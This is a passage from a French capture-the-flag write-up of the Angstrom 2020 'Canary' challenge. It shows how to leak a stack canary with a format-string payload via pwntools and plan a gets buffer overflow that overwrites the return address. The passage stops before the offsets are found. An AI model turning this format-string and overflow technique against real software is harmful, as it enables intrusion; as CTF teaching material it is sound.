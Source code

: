 C'est parfait !

Trouvons le canary parmi ce leak. 
Le canary est vérifiée en fin d'exécution du programme, ce qui permet de comparer la valeur avec le leak précédemment obtenu.
Le canary est ici stocké dans le registre RAX:

![devoops-E](/img/Angstrom2020/Canary/canary3.png){:class="img-responsive"}

Et celui-ci correspond bien à la 17ème adresses du leak mémoire.

L'idée est donc de récupérer dynamiquement le canary via la première entrée utilisateur, avant de déclencher un buffer-overflow (toujours sur la fonction _gets_), de façon à écraser l'adresse à laquelle le programme va return, tout en re-plaçant le canary à la bonne place.

La partie de l'exploit permettant de récupérer le canary est la suivante:
```python
from pwn import *
conn = remote("shell.actf.co" 20701)

f_string = "%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx-%lx"

conn.sendline(f_string)
leak = conn.recvuntil("Anything")
canary = str(leak).split("nice to meet you, ")[1].split("!")[0].split("-")[-1]
print("[+] Canary found: " + canary)
```

Il nous manque maintenant le padding nécessaire pour écraser le canary, et celui pour écraser RIP.

Pour trouver l'offset du cannary, il suffit d'observer l'état de la stack, connaissant la valeur du cannary (ce qui est maintenant le cas):

![devoops-E](/img/Angstrom2020/Canary/canary4.png){:class="img-responsive"}
